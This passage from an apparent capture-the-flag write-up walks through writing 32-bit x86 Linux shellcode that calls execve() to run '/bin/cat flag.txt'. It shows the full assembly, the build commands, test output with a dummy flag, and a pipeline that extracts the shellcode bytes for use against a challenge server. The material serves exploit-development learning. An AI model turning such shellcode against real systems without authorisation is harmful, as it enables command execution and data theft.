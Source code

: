 Let's write one more shellcode example to `cat` that file (it'll give us the chance to test `execve()` with multiple arguments in `argv`).

First we need bytes for the strings `/bin/cat` and `flag.txt`
```
> python -c "print('/bin/cat'.encode('hex'))"
2f62696e2f636174
> python -c "print('flag.txt'.encode('hex'))"
666c61672e747874
```
Both are the right length, so we don't need padding. `/bin/cat` will need `0x6e69622f` and `0x7461632f`, and `flag.txt` will need `0x67616c66` and `0x7478742e`.
> **Note:** The above commands work in Python2. To get the hex values in Python3, use:  
  `python3 -c "import binascii; print(binascii.b2a_hex(b'/bin/cat'))"`  
  `python3 -c "import binascii; print(binascii.b2a_hex(b'flag.txt'))"`

Here's the assembly I wrote to do the `cat`:
```asm
# /bin/cat flag.txt test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x7461632f            ; Push the executable string (/bin/cat) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command

         push eax                   ; Null terminate the argument string
         push 0x7478742e            ; Push the argument (flag.txt) to the stack
         push 0x67616c66            ;
         mov esi, esp               ; Save the pointer in ESI
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push esi                   ; Push the pointer to the argument (flag.txt)
         push ebx                   ; Push the pointer to the command (/bin/cat)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x0b               ; Use AL so we don't need zeros
         int 0x80
        
         mov al, 1                   ; Now exit
         xor ebx, ebx                ; with status 0
         int 0x80

```
I built and ran this to test it:
```
> nasm -felf cat-shellcode.asm -o cat-shellcode.o && ld -m elf_i386 -o cat-shellcode cat-shellcode.o
> ./cat-shellcode 
flag{dummy_flag_for_testing}
This is just a local file, 
not the actual one!
End of transmission...
```
This listed out my local flag.txt file. Now it is converted to shellcode and tested on the server:
```
> SCODE=$(objdump -d ./cat-shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')
```